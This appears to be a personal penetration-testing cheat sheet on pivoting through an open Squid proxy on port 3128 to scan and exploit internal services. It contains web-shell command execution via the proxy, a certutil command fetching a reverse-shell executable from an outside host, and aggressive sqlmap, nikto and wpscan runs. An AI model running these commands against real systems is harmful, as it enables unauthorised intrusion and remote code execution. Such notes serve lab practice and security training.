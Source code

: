 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Spose
```bash - kali
git clone https://github.com/aancw/spose.git && cd spose
```

```bash - kali
python3 spose.py --proxy http://$TARGET:3128 --target 127.0.0.1
```

![[Pasted image 20220610140446.png]]

#### Foxy Proxy
![[Pasted image 20220610133805.png]]

Once foxy proxy is set up, we now try visiting one of the ports found by spose:

http://127.0.0.1:3306
http://127.0.0.1:8080

Visiting 8080, we see a link for /phpmyadmin

[[phpmyadmin]]

```bash - kali
curl --proxy $TARGET:3128 "http://127.0.0.1:8080/shelly.php?cmd=whoami" 
```

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[rlwrap]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```bash - kali
curl --proxy $TARGET:3128  "http://127.0.0.1:8080/shelly.php?cmd=certutil%20-urlcache%20-split%20-f%20http%3A%2F%2F192.168.49.57%2Freverse64.exe"
```

#### Nikto
```bash - kali
nikto -h $TARGET -useproxy http://$TARGET:3128
```

#### dirsearch 
```bash - kali
dirsearch -u http://$TARGET --proxy=$TARGET:3128
```

#### sqlmap
```bash - kali
sqlmap -u http://$TARGET/sqli/Less-1/?id=1 --dbs --proxy http://$TARGET:3128
```

#### Wordpress wpscan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET --proxy http://$TARGET
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
